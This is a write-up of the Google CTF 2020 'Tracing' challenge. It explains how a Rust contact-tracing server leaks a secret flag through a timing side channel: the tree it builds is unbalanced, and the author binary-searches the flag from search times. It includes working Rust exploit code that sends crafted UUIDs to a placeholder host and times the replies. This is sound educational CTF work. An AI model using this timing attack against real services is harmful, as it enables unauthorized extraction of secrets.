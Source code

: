 ## CTF 2020 Tracing writeup

Well, its been a while since ctf google competition has ended (August 2020) but I just discovered it and thought I should give it a go.
Soo here it goes:


The challenge is under the pwn category and it is considered an easy one (but awards 151 points instead of the 50 that most easy challenges are worth)

The description of the challenge is the following:
```
An early prototype of a contact tracing database is deployed for the developers to test,
but is configured with some sensitive data. See if you can extract it.
```

Google provides a zip file that has a basic rust implementation of a server and an implementation of a b-tree.

### Understanding the problem
We can assume that the purpose of using rust here is to make sure that buffer overflow attacks are impossible. Neither the webserver nor b-tree implementation seem to have any unsafe code that we could exploit.

We can formulate though a solution, if we track down the logic the webserver is following.

First of all we can see that the server loads up some flag (thats what we're tasked to find to complete the challenge) which is 16 bytes and casts it to a Uuid.
```rust
 let checks: Vec<Uuid> = std::env::args()
        .skip(1)
        .map(|arg| Uuid::from_slice(arg.as_bytes()).unwrap())
        .collect();
```


Every new connection to the server spawns a thread that handles it and performs the following:
  * Read N bytes untill the reading channel is closed from the client
  * Split the N bytes into chunks of 16 bytes
  * Create N/16 Uuids and insert them into a fresh b-tree
  * Write back to the client the number of inserted Uuids
  * Search the input flag into the b-tree
  * Close the connection
  
Highlighting those in code:
```rust
...
    // receive bytes
    let bytes = (&stream).bytes().map(|b| b.unwrap());
    // split to chunks
    let chunks = {
        use futures::stream::StreamExt;
        bytes.chunks(16)
    };

    let mut count: u32 = 0;
    // create collection of Uuids
    let ids = chunks.filter_map(|bytes| {
        count += 1;
        Uuid::from_slice(&bytes).ok()
    });
    // Use ids to populate a fresh binary tree
    let tree = {
        use futures::stream::StreamExt;
        ids.collect::<BinarySearchTree<_>>()
    }
    .await;
    // respond with a number
    stream.write_all(&count.to_be_bytes()).await?;

    // perform check
    checks
        .iter()
        .filter(|check| tree.contains(check))
        .for_each(|check| warn!("Uploaded IDs contain {}!", check));
    // shutdown connection
    stream.shutdown(std::net::Shutdown::Both)?;
...
```

As we can see from the above, we can only alter the content of the b-tree and have no way to retrieve anything other than the number of elements we inserted into it.

### Craft a theoritical solution
What allows to solve this challenge instead is the timing in which the server responds and closes the connection.
The server writes back to the client the moment it has finished inserting the values into the b-tree and closes the connection only after a complete search for the flag into the tree.

Which means that the only attack angle here is **timing**.

A quick check on the binary tree implementation shows that this is **not** a self-balancing b-tree, which means that we can create a totally unbalanced b-tree and therefore alter the searching time on demand.

A simple example on how we could leverage that and search for the flag is the following:

Assuming that the flag is a value between 1-100, inserting into the binary tree values 50,51,.....80 will create the following tree:
![](./images/tracing1.png)


if the flag is between 0-50 the search operation will be 0(1) and if it is on the upper bound the operation becomes O(n)

We can then measure the time from the moment the server responds till it shuts down the connection.
We repeat the same thing but in reverse this time. We insert 50,49,...20.
which will be O(1) for values higher than 50 and o(n) for the lower bound.

Measuring again will give us 3 possible results.
If our flag is between 50-100 it will take more time to be searched through the first tree and if it is between 0-50 it will take more time on the second tree. IF the time is identical we just found the flag first try (very unlikely). By noting that down we can inference in which half of the key space our flag is on. Congrats, we just performed the first step of Binary search, then we only have to rinse and repeat couple of times till we get really close to the flag value.

### Implement solution
In this exact problem we have 2^ (16*8) = 2^128 flags that we have to binary search through them.

For the sake of getting more familiar with rust I created a client in rust that would perform those checks for me.
What is very convinient is that we could use a ```u128``` to represent each Uuid. Therefore we can easily do numeric operations without a care in the world.

Therefore I use one function that:
  * takes a u128 which is the middle point in my binary search and a sign ("+" or "-") 
  * initiates a connection to the server
  * writes 1000 consecutive (in increasing or decreasing order based on the sign) Uuids to the server
  * waits for the response
  * initiates a time instance
  * and returns it when the connection is closed

```rust
fn check_mid(middle: u128, sign: &str) -> std::io::Result<std::time::Instant> {
    let mut stream = TcpStream::connect("some.server:1337")?;
    for i in 0..1000 {
        if sign == "+" {
            stream.write(&(middle + i).to_be_bytes())?;
        } else {
            stream.write(&(middle - i).to_be_bytes())?;
        }
    }
    // close writing channel and make server create b-tree
    stream.shutdown(Shutdown::Write)?;
    let mut buffer: [u8; 4] = [1, 1, 1, 1];
    // read response
    stream.read(&mut buffer)?;
    //start measuring the time
    let now = Instant::now();
    // return the time instance for evaluation
    Ok(now)
}
```

Then I used this function to perform my binary search throughout the flag space.

```rust
fn main() {
    // start at the middle of our 16byte key space
    let mut middle: u128 = u128::MAX / 2;
    let mut i = 2;
    while i < 127 {
        let mut right: u128 = 0;
        let mut left: u128 = 0;
        // get accumulated elapsed time from communicating with the server
        for _ in 0..200 {
            right += check_mid(middle, "+")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
            left += check_mid(middle, "-")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
        }
        // move the middle point according to the statistics gathered
        // this is the essense of the binary search
        if right > left && right.wrapping_sub(left) > 20000 {
            middle = middle + (u128::MAX / 2u128.pow(i));
            i += 1;
        } else if left > right && left.wrapping_sub(right) > 20000 {
            middle = middle - (u128::MAX / 2u128.pow(i));
            i += 1;
        }
        // print iteration of the binary search, u128 , uuid and characters of current iteration
        println!(
            "middle {} : {} : {:?}  : {:?}",
            i,
            middle,
            Uuid::from_bytes(middle.to_be_bytes()),
            middle
                .to_be_bytes()
                .iter()
                .map(|&byte| byte as char)
                .collect::<Vec<char>>()
        );
    }
}
```

It is worth noting that the measurement of time is significant to the binary search path. Random spikes in the network latency can completely ruin our results. Therefore I'm repeating the same request 200 times in an attempt to eliminate the network variable.

In addition, after a quick research I found that google's VM is located in europe-west1-d datacenter and I ran my program from a VM there to further decrease the random latency.


Thank god binary search works this way, and we only need to do 128 requests to search all of the key space of the flag.
After a long while, we can obtain the flag.

In occasional errors, we can restart the app adjusting the ```i``` and ```middle``` for the search to continue from where it failed.
